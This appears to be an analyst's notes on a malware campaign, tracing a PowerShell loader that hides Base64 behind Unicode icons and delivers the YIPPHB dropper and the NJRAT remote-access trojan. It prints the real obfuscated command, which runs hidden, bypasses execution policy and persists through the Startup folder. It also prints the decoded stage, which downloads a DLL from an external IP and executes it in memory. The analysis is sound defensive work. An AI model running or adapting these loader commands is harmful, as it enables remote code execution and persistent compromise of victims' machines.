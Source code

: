 ## Key takeaways

- Elastic Security Labs identified 12 clusters of activity using a similar TTP of threading Base64 encoded strings with Unicode icons to load the YIPPHB dropper.
- YIPPHB is an unsophisticated, but effective, dropper used to deliver RAT implants going back at least May of 2022.
- The initial access attempts to use Unicode icons embedded in Powershell to delay automated analysis.

## **Preamble**

While reviewing telemetry data, Elastic Security Labs identified abnormal arguments during the execution of Powershell. A closer examination identified the use of Unicode icons within Base64-encoded strings.  A substitution mechanism was used to replace the icons with ASCII characters.

Once the icons were replaced with ASCII characters, a repetitive process of collecting Base64 encoded files and reversed URLs was used to execute a dropper and a full-featured malware implant. The dropper and malware implant was later identified as YIPPHB and NJRAT, respectively.

This research focused on the following:

- Loader phase
- Dropper phase

## **Analysis**

The analysis of the intrusion set describes an obsfuscation method (maybe) intended to evade automated analysis of PowerShell commands

![[Untitled 540.png|Untitled 540.png]]

Execution flow for the REF4526 intrusion set

![[Untitled 1 6.png|Untitled 1 6.png]]

Trend Micro Vision One Alert

![[Untitled 2 6.png|Untitled 2 6.png]]

![[Untitled 3 6.png|Untitled 3 6.png]]

**maintains access by copying itself into the user's Startup folder as a natively-supported VBscript.**

## **Loader phase**

While analyzing the Powershell command, I observed Unicode icons embedded into Powershell commands. The use of Unicode to obfuscate Powershell commands is not a technique i have observed.

```PowerShell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command $iUqm = 'JABSAG8AZABhAEMAbwBwAHkAIAA9ACAAJwC0ALIAqgC3ALMAtwCzAKoAswC0ACcAOwBbAEIAeQB0AG⌚⌚⌚AWwBdAF0AIAAkAEQATABMACAAPQAgAFsAcwB5AHMAdABlAG0ALgBDAG8AbgB2AG⌚⌚⌚AcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQA⌚⌚⌚wB0AHIAaQBuAGcAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAG⌚⌚⌚AdAAuAFcAZQBiAEMAbABpAG⌚⌚⌚AbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQA⌚⌚⌚wB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AOQAxAC4AMgAxADMALgA1ADAALgA3ADQALwBHAFIARQBFAE4ALwBSAFgAVwBFAFIALwBkAGwAbABmADMALgB0AHgAdAAnACkAKQA7AFsAcwB5AHMAdABlAG0ALgBBAHAAcABEAG8AbQBhAGkAbgBdADoAOgBDAH⌚⌚⌚AcgByAG⌚⌚⌚AbgB0AEQAbwBtAGEAaQBuAC4ATABvAGEAZAAoACQARABMAEwAKQAuAEcAZQB0AFQAeQBwAG⌚⌚⌚AKAAnAE4AdwBnAG8AeABNAC4ASwBQAEoAYQBOAGoAJwApAC4ARwBlAHQATQBlAHQAaABvAGQAKAAnAFAAVQBsAEcASwBBACcAKQAuAEkAbgB2AG8AawBlACgAJABuAH⌚⌚⌚AbABsACwAIABbAG8AYgBqAG⌚⌚⌚AYwB0AFsAXQBdACAAKAAnAEcAcwBBAG8AeQA5AFAAcwB3AHgAeAB4AC8AZABhAG8AbABuAHcAbwBkAC8AbQBvAGMALgBvAGkAZQB0AHMAYQBwAC8ALwA6AHMAcAB0AHQAaAAnACAALAAgACQA⌚⌚⌚gBvAGQAYQBDAG8AcAB5ACAALAAgACcARgAzACAAJwAgACkAKQA=';$OWjuxD = [system.Text.Encoding]::Unicode.GetString( [system.Convert]::FromBase64String( $iUqm.replace('⌚⌚⌚','U') ) );$OWjuxD = $OWjuxD.replace('´²ª·³·³ª³´', 'C:\Users\tcuame\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Multa\#6587765.pdf - copia - copia - copia (6).vbs');powershell.exe -windowstyle hidden -ExecutionPolicy Bypss -NoProfile -Command $OWjuxD
```

While this technique is not overly complex in that it simply replaces the icons with an ASCII character, it is creative. **This technique could delay automated analysis of Base64 encoded strings** unless the Powershell command was either fully executed or an analysis workflow was leveraged to process Unicode and replacement functions.

  

Looking at the Powershell command, i was able to identify a process to replace the Unicode watch icons (⌚⌚⌚) with a **U**.

To illustrate what’s happening, I used the data analysis tool created by the GCHQ: [**CyberChef**](https://gchq.github.io/CyberChef/).

  

![[Untitled 4 6.png|Untitled 4 6.png]]

The output was:

```PowerShell
$RodaCopy = '´²ª·³·³ª³´';[Byte[]] $DLL = [system.Convert]::FromBase64String((New-Object Net.WebClient).DownloadString('http://91[.]213[.]50[.]74/GREEN/RXWER/dllf3.txt'));[system.AppDomain][:][:]CurrentDomain.Load($DLL).GetType('NwgoxM.KPJaNj').GetMethod('PUlGKA').Invoke($null, [object[]] ('GsAoy9Pswxxx/daolnwod/moc.oietsap//:sptth' , $RodaCopy , 'F3 ' ))
```

There is an IP Address from where the **LOADER** is downloaded. `'hxxp[://]91[.]213[.]50[.]74/GREEN/RXWER/dllf3.txt'`

![[Untitled 5 5.png|Untitled 5 5.png]]

![[Untitled 6 4.png|Untitled 6 4.png]]

And also a reversed URL. `'hxxps[://]pasteio[.]com/download/xxxwsP9yoAsG'`

![[Untitled 7 4.png|Untitled 7 4.png]]

![[Untitled 8 4.png|Untitled 8 4.png]]

  

- Continued
    
    Downloading the **dllf3.txt** from the source provides me another Base64-encoded string.
    
    ![[Untitled 9 4.png|Untitled 9 4.png]]
    
      
    
    ## **Dropper phase**
    
    - What is a Dropper?
        
        A dropper is **a kind of Trojan that has been designed to "install" malware (virus, backdoor, etc.) to a computer**. The malware code can be contained within the dropper in such a way as to avoid detection by virus scanners; or the dropper may download the malware to the targeted computer once activated.